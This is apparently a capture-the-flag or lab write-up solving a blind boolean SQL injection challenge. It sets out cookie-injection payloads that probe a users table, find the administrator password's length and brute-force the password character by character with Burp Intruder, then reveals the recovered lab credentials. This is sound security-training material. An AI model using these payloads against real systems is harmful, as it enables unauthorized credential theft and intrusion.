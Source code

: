 ![image](https://github.com/user-attachments/assets/a02e3df0-23e6-4d69-a493-24066679c18e)# Problem

![image](https://github.com/user-attachments/assets/ceed0dcb-2818-4eea-a02f-5c4799d80bfc)

# Solution

Start with **BurpSuite** and intercept the request, looking for the _tracking id_ cookie.

![image](https://github.com/user-attachments/assets/40a9db98-7833-4bb5-a369-fd96dc670cfc)

That in particular.

Then, run the following commands:

```
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='1 // Verify that SQLi works
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='2 // Verify it works, but this time no response message
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users LIMIT 1)='a // Verify users table is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator')='a //Verify that admin is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>[1,2,3,...20])='a //Verify password length
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a //Verify character is at that position in password
```

Take note of the last command, that's the payload we'll use to bruteforce this.

Speaking of, send the request to _Intruder_ and do the following:

**Intruder Presets:**

![image](https://github.com/user-attachments/assets/f71c23c8-b63f-448e-9aee-3c63f91dc778)

**Payloads:**

```
Payload 1: [1-20]
Payload 2: [a-z, 0-9]
```

**Brute Forcer Results**

![image](https://github.com/user-attachments/assets/3bd995b3-d6c2-4ee1-a04d-03f704783cb5)

**Username: administrator**

**Password: a2k8q5haz214i3smm5m1**

